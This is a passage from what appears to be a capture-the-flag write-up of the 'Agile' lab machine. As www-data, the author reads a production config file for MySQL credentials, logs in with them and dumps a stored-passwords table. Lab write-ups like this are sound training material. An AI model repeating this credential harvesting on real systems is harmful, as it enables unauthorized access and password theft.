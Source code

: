 ```bash
PATH=/app/venv/bin:/app/venv/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
_=/usr/bin/env
```

```bash
venv) www-data@agile:/app/app$ cat /app/config_prod.json
cat /app/config_prod.json
{"SQL_URI": "mysql+pymysql://superpassuser:dSA6l7q*yIVs$39Ml6ywvgK@localhost/superpass"}
```

| Username | Password | Target |
| -- | -- | -- |
| superpassuser | dSA6l7q*yIVs$39Ml6ywvgK | Mysql |

```bash
(venv) www-data@agile:/app/app$ mmysql -u superpassuser -p
Enter password: dSA6l7q*yIVs$39Ml6ywvgK

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 188
Server version: 8.0.32-0ubuntu0.22.04.2 (Ubuntu)
...
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```

```bash
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| performance_schema |
| superpass          |
+--------------------+

mysql> use superpass;
Database changed

mysql> show tables;
+---------------------+
| Tables_in_superpass |
+---------------------+
| passwords           |
| users               |
+---------------------+
2 rows in set (0.00 sec)

mysql> SELECT url, username, password FROM passwords;
+----------------+----------+----------------------+
| url            | username | password             |
+----------------+----------+----------------------+
| hackthebox.com | 0xdf     | 762b430d32eea2f12970 |
| mgoblog.com    | 0xdf     | 5b133f7a6a1c180646cb |
| mgoblog        | corum    | 47ed1e73c955de230a1d |
| ticketmaster   | corum    | 9799588839ed0f98c211 |
| agile          | corum    | 5db7caa1d13cc37c9fc2 |
+----------------+----------+----------------------+
5 rows in set (0.00 sec)
```
